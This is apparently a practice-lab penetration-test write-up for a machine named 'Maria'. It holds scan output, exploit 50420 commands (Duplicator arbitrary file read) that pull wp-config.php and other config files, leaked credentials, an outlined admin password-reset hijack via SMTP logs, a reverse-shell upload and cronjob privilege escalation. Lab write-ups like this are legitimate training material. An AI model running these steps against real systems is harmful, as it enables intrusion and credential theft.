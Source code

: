 # Maria \[Inter]

## Report

Vulnerable plugins, 'duplicator' and 'easy-wp-smtp' are vulnerable to arbritary file read and information disclosure via logs respectively. MySQL version '5.5.5' is also vulnerable to RCE as user 'mysql' and expose creds via duplicator LFI to reveal database creds but it's a rabbit hole via wp-config.php. FTP anonymous file access was denied but was visible via LFI exploit (read FTP anon root first) and read the cronjob running binary 'automysqlbackup' which further reveals more database creds which get accepted this time but not enough for SQL RCE to work.

'easy-wp-smtp' can read SMTP debug log files which store all communications in plaintext. We need to generate an email first. Reset password for user admin (google also suggests the same) and find the log file location via 'wp\_options' table from MySQL db and access the reset password link and login as admin to upload PHP reverse shell.

The cronjob running as root executes a file which is owned by user 'joseph', modify it to spawn a new shell as root.

## Enumeration

192.168.156.167

21, 22, 80, 3306

```
21/tcp    open   ftp       vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    5 0        0            4096 Sep 21  2018 automysqlbackup
22/tcp    open   ssh       OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open   http      Apache httpd 2.4.38
| http-methods: 
|_  Supported Methods: HEAD
3306/tcp  open   mysql     MySQL 5.5.5-10.3.27-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 24
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, SupportsTransactions, Speaks41ProtocolOld, IgnoreSigpipes, InteractiveClient, LongColumnFlag, DontAllowDatabaseTableColumn, ConnectWithDatabase, SupportsLoadDataLocal, SupportsCompression, FoundRows, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, ODBCClient, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: A2sq_e_/f9)_'?I0T8Y7
|_  Auth Plugin Name: mysql_native_password

```

We have a MySQL RCE exploit but need creds (MySQL 5.5.5-10.3.27-MariaDB)

WordPress don't even have plugins this time&#x20;

FTP don't allow random access

Aint forget bout these \
\| Salt: A2sq\_e\_/f9)_'_?I0T8Y7 | Auth Plugin Name: mysql\_native\_password

#### 21 (FTP)

Cannot download files - access denied for Anonymous

#### 80 (WordPress)

```
[+] Headers
 | Interesting Entry: Server: Apache/2.4.38 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.225.167/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.225.167/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.225.167/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.225.167/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.7.1 identified (Insecure, released on 2021-04-15).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.225.167/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.7.1'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.225.167/, Match: 'WordPress 5.7.1'
 
 [+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```

Did not find plugins again jeez

```
wpscan --url http://192.168.195.167/ -e ap --plugins-detection aggressive
[+] akismet
 | Location: http://192.168.183.167/wp-content/plugins/akismet/
 | Latest Version: 5.5
 | Last Updated: 2025-07-15T18:17:00.000Z
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.183.167/wp-content/plugins/akismet/, status: 403
 |
 | The version could not be determined.

[+] duplicator
 | Location: http://192.168.183.167/wp-content/plugins/duplicator/
 | Last Updated: 2025-09-12T16:17:00.000Z
 | Readme: http://192.168.183.167/wp-content/plugins/duplicator/readme.txt
 | [!] The version is out of date, the latest version is 1.5.13.3
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.183.167/wp-content/plugins/duplicator/, status: 200
 |
 | Version: 1.3.26 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.183.167/wp-content/plugins/duplicator/readme.txt

[+] easy-wp-smtp
 | Location: http://192.168.183.167/wp-content/plugins/easy-wp-smtp/
 | Last Updated: 2025-09-01T11:49:00.000Z
 | Readme: http://192.168.183.167/wp-content/plugins/easy-wp-smtp/readme.txt
 | [!] The version is out of date, the latest version is 2.12.0
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.183.167/wp-content/plugins/easy-wp-smtp/, status: 200
 | Version: 1.4.1 (100% confidence)

```

## Loot

### Initial Foothold

Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read (**50420)**

```
python3 50420.py http://192.168.183.167 /etc/apache2/sites-enabled/000-default.conf
DocumentRoot /var/www/html/wordpress

/var/www/html/wordpress/wp-config.php

define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'wordpress' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

```

can't login to sql as user wordrpress, enumerate FTP using our LFI exploit

`python3 50420.py http://192.168.183.167 /etc/vsftpd.conf`

`anon_root=/srv/ftp`

Read the initial binary from ftp for mysqlautomate, mentions if a file exists, run the binary, go check that file

```
python3 50420.py http://192.168.183.167 /srv/ftp/automysqlbackup/usr/sbin/automysqlbackup
python3 50420.py http://192.168.183.167 /etc/default/automysqlbackup
```

Running MySQL exploit RCE for that&#x20;

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption><p>Rabbit hole</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption><p>Perform password reset first</p></figcaption></figure>

Become admin and upload revshell

### PrivEsc

The cronjob running, yeah

### Creds

backup:EverydayAndEverynight420

### Proof
